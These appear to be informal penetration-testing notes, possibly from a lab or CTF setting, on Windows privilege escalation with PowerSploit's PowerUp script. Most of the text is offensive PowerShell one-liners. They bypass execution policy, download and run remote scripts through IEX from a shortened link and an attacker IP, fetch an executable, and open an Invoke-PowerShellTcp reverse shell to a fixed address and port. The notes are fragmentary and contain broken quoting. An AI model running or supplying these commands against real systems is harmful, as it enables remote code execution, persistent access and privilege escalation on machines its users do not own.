

https://github.com/m0nad/awesome-privilege-escalation
Windows powerup > https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
Usage
- C:> powershell.exe -nop -exec bypass
meterpreter > powershell_execute- PS C:\> Import-Module PowerUp.ps1
Get-Help Get-ServiceEXEPerms -full < get list of all the available functions
output your results to a file, I recommend using the Powershell Out-File cmdlet, I.E. ”PS C:\>
Download PowerUp - C:\> powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”

------------------------------------------------------------------------------------
Powershell get download link
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
Downloadstring, execute using parameters for script:
> powershell invoke-expression (New-Object Net.WebClient).DownloadString('http://10.13.17.108/invoke-powershellTCP.ps1');invoke-powershellTCP -Reverse -IPAddress 10.13.17.108 -Port 4444
with shell in plaace execute with
Start-Process "whatever.exe"